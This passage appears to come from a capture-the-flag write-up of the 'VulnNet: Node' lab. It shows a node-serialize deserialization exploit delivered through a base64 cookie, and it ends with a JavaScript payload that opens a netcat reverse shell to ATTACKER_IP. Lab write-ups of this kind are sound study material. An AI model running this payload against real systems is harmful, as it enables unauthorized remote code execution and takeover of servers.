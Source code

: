 Now we base64-encode the result:

![screenshot9](../assets/images/vulnnet_node/screenshot9.png)

We then replace our cookie value with this base64-encoded string:

![screenshot10](../assets/images/vulnnet_node/screenshot10.png)

We submit this request and receive:

![screenshot11](../assets/images/vulnnet_node/screenshot11.png)

Nice! The 'GUEST' string from before has been changed to our returned value 'hi', which we defined earlier in our function. This proves that our exploit has worked :smile:

With that, we can now change our payload to open up a reverse shell. We now use the following js script:

``` js
var serialize = require('node-serialize');

x = {
	username : function(){ require('child_process').execSync("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP 4444 >/tmp/f", function puts(error, stdout, stderr) {}); }
};

console.log(serialize.serialize(x));
```
